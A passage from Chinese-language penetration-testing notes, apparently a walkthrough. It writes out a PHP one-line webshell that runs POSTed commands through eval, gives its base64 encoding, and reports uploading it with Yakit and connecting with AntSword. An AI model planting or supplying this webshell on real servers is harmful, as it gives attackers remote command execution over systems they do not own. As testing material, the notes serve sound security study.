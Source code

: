 ![image-20250304140534450](./images/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95.assets/image-20250304140534450.png)



对一句话木马进行 base64 编码

```
<?php eval($_POST['CMD']); ?>
```

```
PD9waHAgZXZhbCgkX1BPU1RbJ0NNRCddKTsgPz4=
```



使用 yakit 上传一句话木马

![image-20250304140840730](./images/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95.assets/image-20250304140840730.png)



使用中国蚁剑连接成功

![image-20250304141035051](./images/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95.assets/image-20250304141035051.png)
